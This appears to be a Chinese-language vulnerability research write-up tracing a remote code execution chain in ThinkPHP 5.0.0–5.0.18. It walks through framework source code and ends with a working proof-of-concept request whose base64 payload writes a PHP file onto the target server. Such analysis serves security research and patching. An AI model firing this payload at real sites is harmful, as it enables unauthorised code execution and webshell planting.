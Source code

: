 @Author：Y4tacker

@Time：2021/04/20

# ThinkPHP5.0.0-5.0.18RCE另类利用姿势

## Trick

比较骚的是我们一直以为php当中`::`只能调用静态方法，但是非静态一定条件下也能成功调用

成功输出123虽然有报错

```php
<?php
class A{
    public $a;
    public function y4tacker(){
        echo 123;
    }
}

A::y4tacker();
```

失败

```php
<?php
class A{
    public $a;
    public function y4tacker(){
        $this->a = '123';
        echo 123;
    }
}

A::y4tacker();
```



## 分析

首先利用点是利用`thinkphp/library/think/Request.php`中的`$value = call_user_func($filter, $value);`来执行任意函数之后我们可以利用`thinkphp/library/think/view/driver/Php.php`当中的`eval('?>' . $content);`实现任意命令执行从而实现Shell的写入

再往上看，我们需要找到调用了`filterValue`方法的地方，在`thinkphp/library/think/Request.php`当中有

```php
if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }
```

并且这个filter参数是由`$filter = $this->getFilter($filter, $default);`获取而来，我们跟踪这个函数

```php
protected function getFilter($filter, $default)
    {
        if (is_null($filter)) {
            $filter = [];
        } else {
            $filter = $filter ?: $this->filter;
            if (is_string($filter) && false === strpos($filter, '/')) {
                $filter = explode(',', $filter);
            } else {
                $filter = (array) $filter;
            }
        }

        $filter[] = $default;
        return $filter;
    }
```

我们可以利用控制filter参数为空返回`$this->filter`，并且这个参数可控，之前的文章就分析过了，这里再简单提一下吧，在Request.php当中的method方法当中，可以控制`$this->method`为`__construct`实现变量覆盖

```
$this->{$this->method}($_POST);
```

因此我们回到正题，首先get传入的`s=captcha&g=implode`是为了设置`dispatch`为method，我们稍微跟一下这个过程的关键步骤

首先调用`self::routeCheck($request, $config);`

之后进入`$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);`

![](pic/1.png)

关键是这里，我们跟进

![](pic/2.png)

这里返回`_construct`

![](pic/3.png)

在这里对`Request`类初始化覆盖赋值

![](pic/4.png)

最终返回`$this->method`也就是`GET`,至于为什么非得传他，因为我们需要进入这个方法，所以必须得有路由参数

![](pic/7.png)

由于我们需要获取这个captcha路由规则

![](pic/6.png)

可以看到这里得到路由route这很重要

![](pic/8.png)

我们接着往下跟踪到`checkRule`

![](pic/9.png)

由于route路由为`\think\captcha\CaptchaController@index`很明显因此返回method

![](pic/10.png)

当然我们不一定使用captcha，其他路由也行，但是captcha在这里是万能的QAQ，毕竟每个TP5都自带了，我们继续返回`APP.php`，跟进

![](pic/5.png)

此时参数为

![](pic/11.png)

我们继续跟进Request的param

![](pic/12.png)

这里参数合并

![](pic/13.png)

我们继续跟进

![](pic/14.png)

进入Request的input方法也就回到了我们上面说的利用`array_walk_recursive`执行任意类方法了，

![](pic/15.png)

他对$data中每一个参数迭代运行$fileter当中的方法

![](pic/16.png)

这里面还有一个比较巧妙的地方是`set_error_handler`的使用， `tp5` 默认就调用了 `error_reporting(E_ALL)` ，且有一套内置的错误处理机制。上面预期解也提到了即使报了 `warning` 程序也会中止执行。`set_error_handler()` 函数设置用户自定义的错误处理程序，会绕过标准 PHP 错误处理程序。其他的还有`set_exception_handler()` 函数设置用户自定义的异常处理函数。`register_shutdown_function()` 函数会注册一个会在PHP中止时执行的函数

## POC

```
URL地址
url/public/?s=captcha&g=implode
POST数据
path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3k0dGFja2VyLnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOyA/Pg==&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET
```

成功写入phpinfo，利用成功

![](pic/success.png)